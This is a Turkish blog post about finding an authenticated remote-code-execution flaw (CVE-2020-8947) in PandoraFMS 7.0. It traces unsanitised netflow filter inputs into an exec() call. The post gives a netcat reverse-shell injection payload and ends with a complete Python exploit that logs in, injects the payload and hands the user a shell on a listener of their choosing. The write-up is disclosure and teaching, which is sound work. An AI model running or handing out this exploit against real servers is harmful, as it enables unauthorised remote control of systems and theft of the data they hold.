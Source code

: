 ```yaml
---
layout: post
title: PandoraFMS 7.0 Authenticated Remote Code Execution x 4
date: '2020-03-05 10:20:42 +0300'
categories: blog
---
```



Merhaba, [PANDORAFMS](http://pandorafms.org/) adında açık kaynaklı bir ağ izleme aracında bulduğum Authenticated RCE zafiyetinin detaylı bulumunu anlatıyor olacağım. Statik kaynak kod analizine dair türkçe pek bir kaynak bulunmuyor oluşunu göz önünde bulundurarak makaleyi türkçe kaleme aldım.

**AUTHENTICAD RCE**

Authenticated, zafiyetinin tetiklemesi için geçerli bir kullanıcı gerekli olduğunu belirtir. RCE ise uygulama üzerinden uygulamanın çalıştığı sunucuda sistem kodları çalıştırabilmemize olanak sağlayan zafiyet türüdür.

**PANDORAFMS**

1.  Uygulama indirme linki: [PandoraFMS Downloads](https://pandorafms.org/features/free-download-monitoring-software/)
2.  Zafiyeti tespit ettiğim sürüm: 7.0

**BÖLÜM 1: Uygulama Eldesi**

Profesyonel bir kaynak kod analizicisi değilim bu sebeple zafiyet bulmanın kendime göre en basit olacağı uygulama türleri sınıflandırdım. Bunların başında ise ağ izleme yazılımları geliyor. Ufak bir [arama sonucu](https://www.dnsstuff.com/open-source-network-monitoring-tools) açık kaynaklı popüler ağ izleme araçları listesine eriştim ve burada [PANDORAFMS](https://pandorafms.org/) yazılımına rastladım, hem açık kaynaklıydı hemde indirme linklerinde doğrudan sanallaştırma yazılımlarıyla kullanılabilecek bir OVA dosyası bulunuyordu. Doğrudan bir OVA dosyası bulunması, uygulamanın kaynak kodlarına erişimde işleri oldukça kolaylaştırıyor. OVA dosyasını indirdim ve [VMWARE Fusion](https://www.vmware.com/products/fusion.html) ile sanal makine olarak kaldırdım.

**Bölüm 2: Kaynak Kod Eldesi**

Sanal makineye giriş yapmak için dağımtıcının kendi sağladığı [kılavuz](https://pandorafms.com/downloads/guias_rapidas_EN.pdf) üzerinden root:pandora giriş bilgisini aldım ve sisteme giriş yaptım.

![]({{ AUCyberClub.github.io }}(/assets/img/pandorafms/pandorafms.png)

Sistem üzerinde biraz gezindikten sonra, uygulamaya dair kodların varsayılan webservisi dizini olan /var/www/html dizininde tutulduğunu tespit ettim.

![]({{ AUCyberClub.github.io }}(/assets/img/pandorafms/pandorafms-kaynak.png)

Kodları daha uygun bir ortadamda IDE üzerinden incelemek için dizini [TAR](https://wiki.ubuntu-tr.net/index.php?title=Tar_komutu_kullan%C4%B1m%C4%B1) ile sıkıştırdım ve SCP kullanarak ana makineme aktardım.

```
tar -czvf pandora.tar.gz /var/www/html/pandora_console
scp root@pandoraFMSIP:/var/www/html/pandora.tar.gz /tmp/pandora.tar.gz
```

**Bölüm 3: Kaynak Kodun İncelenmesi**

Dosyaları kendi tercih ettiğim [ATOM](https://atom.io/) idesini kullanarak kurcalamaya başladım.

Statik kaynak kod analizlerinde komut çalıştırmaya dair bir zafiyet arıyorsak başlı başlı dikkat etmemiz gereken bazı fonksiyonlar var. Bunların bir kaçına örnek olarak; `system, exec, shell_exec, popen, eval, passthru` fonksiyonları verilebilir.

IDE üzerinde tüm projede bulunan php dosyalarında yukarıda belirttiğim fonksiyonları aramaya başladım ve boşa çabalanan bir kaç saatin sonunda **functions_netflow.php** dosyasının 648\. satırında zafiyete dair çok umut vaadeden bir nokta tespit ettim.

![]({{ AUCyberClub.github.io }}(/assets/img/pandorafms/pandorafms-finding-point.png)

Hem **exec()** fonksiyonu kullanılıyor hemde henüz nerenden geldiği belli olmayan ama ben kullanıcıdan geliyorum diye bağıran bir değişkeni içeriyordu. Fazla Kemal Sunal izlemenin etkisinden olacak "Şimdi istanbul hapı yuttu" diye aklımdan geçirerek **$command** değişkeninin nereden geldiğini kurculamaya başladım.

![]({{ AUCyberClub.github.io }}(/assets/img/pandorafms/pandorafms-command.png)

**$command** değişkeni **net_flow_getcommand()** fonksiyonundan geliyor, daha sonrada önceden tanımlanmış ekstra bir kaç komutta üstüne ekleniyordu. IDE'nin arama özelliğini kullanarak fonksiyonun aynı dosyada 892.nci satırda tanımlandığını tespit ettim.

![]({{ AUCyberClub.github.io }}(/assets/img/pandorafms/pandorafms-netflow-fonksiyon.png)

Fonksiyonu inclediğimde maalesef kullanıcıdan gelen herhangi bir verinin burada **$command** değişkenine maalesef eklenmediğini gördüm.

![]({{ AUCyberClub.github.io }}(/assets/img/pandorafms/pandorafms-netflow-fonksiyon-ayrinti.png)

Fakat bereket olsun, **$command** değişkenine bir şeyler ekleyen yeni fonksiyon çıktı karşıma 904\. satırda bulunan **netflow_get_filter_arguments** fonksiyonu. IDE üzerinden fonksiyonun tanımlandığı noktayı tespit ettim (aynı dosya 917\. satır) ve fonksiyonu incelemeye koyuldum.

![]({{ AUCyberClub.github.io }}(/assets/img/pandorafms/pandorafms-getfilter-fonksiyon.png)

Fonksiyon bir sürü farklı girdiyi(ipsrc, ipdst, srcport, dstport) herhangi bir kontrolden geçirmeden **$filter_args** adında bir değişkene ekliyor ve en sonunda **$filter_args** değişkenini değer olarak dönüyordu. Daha sonra bu değer, **$command** değişkenine ekleniyor ve ilk tespit edilen satırda bulunan **exec()** fonksiyonuna gönderiliyordu. Yani eğer bu değişkenlerden herhangi birine istediğimiz girdiyi verebilirsek pekala buradan bir RCE elde edebiliriz. Aslında aradığım şey $_GET yada $_POST şekilinde kullanıcıdan alınan bir girdiydi fakat bu değişkenlerin hiç birinin geleneksel GET yada POST ile alındığını tespit edemedim. RCE hem çok yakındı hemde çok uzak. Bu durum canımı oldukça sıkmış olsada fonksiyonun içinde bulunan değerlerin mantıksal olarak kullanıcıdan alınması gerekiyordu. Uzunca bir süre bu değişkenlerin nasıl alındığı tespit etmeye çalıştım fakat bir sonuca varamadım. Biraz kafa toplamak amacıyla mola verdim. Bu noktada aslında yine bir şey bulamadığımı düşünüp bırakacaktım ki, aykırı bir tutum sergileyerek Googleda ufak bir arama yaptım.

![]({{ AUCyberClub.github.io }}(/assets/img/pandorafms/pandorafms-google.png)

Buradan dökümanları okumanın ne kadar önemli olduğunu tekrar alıyoruz. Site üzerinde biraz gezindikten sonra, heyecanımı tekrar kazandıran bir ekran görüntüsüne denk geldim

![]({{ AUCyberClub.github.io }}(/assets/img/pandorafms/pandorafms-google-netflow-dokuman.png)

Burada ki gösterilen girdiler fonksiyonun içinde tespit ettiğimiz (ipsrc, ipdst, srcport, dstport) değişkenleriydi, yani RCE zafiyetini tetiklememiz için kontrol etmemiz gereken değişkenler. Hemen dökümanı takip ederek, tarayıcı üzerinden ilgili sayfaya eriştim:

![]({{ AUCyberClub.github.io }}(/assets/img/pandorafms/pandorafms-netflow-page.png)

Girdilerin gönderildiği noktalarının tespitinin ardından, kalan son iş uygun payloadı oluşturmaktı. Fonksiyonları tekrar inceledim, **netflow_get_filter_arguments** fonksiyonun sonunda **$filter_args** değişkenine `"` karakteri eklediğini gördüm.

![]({{ AUCyberClub.github.io }}(/assets/img/pandorafms/pandorafms-son-dokunuslar.png)

Çift tırnakları kapatmak için payloadımız " karakteriyle başlamalı ve kendi komutumuzu çalıştırmak adına " karakterini bir ; takip etmeli tabi farklı girdilerde kullanılabilir && gibi. Son olarak, payloadımızdan sonra gelecek eklemelerin payloadı bozmaması için en sona # işareti koymamız yeterli olacaktır. Yani payloadımız ";Girilecek Komut# taslağında olacak. Taslağın arasına ufak bir reverseshell komutu iliştirmek için [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) den bir reverseshell komutu aldım. Ve sonuç payloadı: **";nc -e /bin/sh 192.168.1.100 1234 #** olarak oluştu. Ve sayfada bulunan "router ip" harici herhangi bir inputa oluşturduğum payloadı verdiğimde bir shell eldesi sağladım.

![]({{ AUCyberClub.github.io }}(/assets/img/pandorafms/pandorafms-son.png)

Dağıtımcıya ulaşmaya çalıştım fakat bir sonuç alamadım. Bu nedenle makaleyi açık olarak yayınladım.


**Bölüm 4: Exploit**



```

'''
PANDORAFMS 7.0 Authenticated Remote Code Execution x4
This exploits can be edited to exploit 4x Authenticated RCE vulnerabilities exist on PANDORAFMS.
incase default vulnerable variable won't work, change the position of payload to  one of the following ip_src, dst_port, src_port

Author: Engin Demirbilek
Github: github.com/EnginDemirbilek
CVE: CVE-2020-8947

'''
import requests
import sys

if len(sys.argv) < 6:
	print "Usage: ./exploit.py http://url username password listenerIP listenerPort"
	exit()

url = sys.argv[1]
user = sys.argv[2]
password = sys.argv[3]
payload = '";nc -e /bin/sh ' + sys.argv[4] + ' ' + sys.argv[5] + ' ' + '#'

login = {
	'nick':user,
	'pass':password,
	'login_button':'Login'
}
req = requests.Session()
print "Sendin login request ..."
login = req.post(url+"/pandora_console/index.php?login=1", data=login)

payload = {
	'date':"",
	'time':"",
	'period':"",
	'interval_length':"",
	'chart_type':"",
	'max_aggregates':"1",
        'address_resolution':"0",
        'name':"",
        'assign_group':"0",
        'filter_type':"0",
        'filter_id':"0",
        'filter_selected':"0",
        'ip_dst':payload,
	'ip_src':"",
	'dst_port':"",
	'src_port':"",
	'advanced_filter':"",
	'aggregate':"dstip",
	'router_ip':"",
	'output':"bytes",
	'draw_button':"Draw"
}

print "[+] Sendin exploit ..."

exploit = req.post(url+"/pandora_console/index.php?sec=netf&sec2=operation/netflow/nf_live_view&pure=0",cookies=req.cookies, data=payload, headers={
'User-Agent':'Mozilla/5.0 Gecko/20100101 Firefox/72.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded'})

if exploit.status_code == 200:
	print "[+] Everything seems ok, check your listener."
else:
	print "[-] Exploit failed. You can change position of payload to ip_src, dst_port or src_port and try again."


```
